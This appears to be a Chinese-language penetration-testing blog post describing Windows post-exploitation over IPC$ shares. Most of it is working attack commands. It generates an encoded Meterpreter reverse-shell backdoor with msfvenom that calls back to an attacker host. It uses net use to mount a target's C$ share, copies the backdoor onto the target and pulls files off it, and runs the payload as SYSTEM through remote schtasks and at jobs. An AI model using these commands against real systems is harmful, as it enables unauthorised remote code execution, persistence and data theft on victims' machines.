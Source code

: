```yaml
---
title: IPC Basic Operation
encrypt: false
enc_pwd: askding
categories:
  - Kali
  - PostExploit
date: 2020-12-07 17:55:00
top:
updated:
tags:
layout:
---
```


## IPC$(Internet Process Connection)是共享"命名管道"的资源。

它是为了让进程间通信而开放的命名管道，
通过提供可信任的用户名和口令，
连接双方可以建立安全的通道并以此通道进行加密数据的交换，
从而实现对远程计算机的访问。

使用条件：
* 开放了139、445端口；
* 目标开启ipc$文件共享；
* 获取用户账号密码。

### msfvenom生成后门

```bash
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 LHOST=192.168.79.207 LPORT=4444 -f exe > ./test.exe
```

### 与目标建立ipc$连接

```zsh
#建立ipc连接
net use \\10.211.55.9\ipc$ /u:adminstrator <password>

#查看已建立的连接
net use

#挂载目标c盘到本地，盘符为z
net use z:  \\10.211.55.9\c$   

#查看目标网路共享的资源
net view \\10.211.55.9
```

### 拷贝test.exe到目标网络

```
#拷贝本地文件到目标C:\windows\temp\中
copy test.exe \\10.211.55.9\c$\windows\temp\

#下载目录C:\windows\temp\hash.txt文件到本地
copy \\10.211.55.9\c$\windows\temp\aaa.txt
```

### 4.启用计划任务执行

##### 使用schtasks.exe命令

```
#在目标上创建计划任务task_name1
schtasks /create /tn task_name1 /s 10.211.55.9  /u administrator /p <password> /tr c:\windows\temp\test.exe /sc onstart /ru system

#执行目标上的计划任务task_name1
schtasks /run /s 10.211.55.9 /u administrator /p <password> /tn task_name1

# 创建该时间之后的某个时刻自动执行任务，任务名 plugin_update
schtasks /create /tn "plugin_update" /tr c:\windows\temp\plugin_update.exe /sc once /st 16:32 /S 193.168.1.12 /RU System /u administrator /p "1qaz@WSX"

#删除目标上的计划任务task_name1
schtasks /delete /s 10.211.55.9 /u administrator /p <password>  /tn task_name1  /f
```

##### 使用at命令

```
#查看目标上的时间
net time \\10.211.55.9

#设定目标上的定时执行的任务
at \\10.211.55.9 13:54 c:\windows\temp
test.exe

#删除目标上的定时任务
at \\10.211.55.9
at \\10.211.55.9 <id> /del
```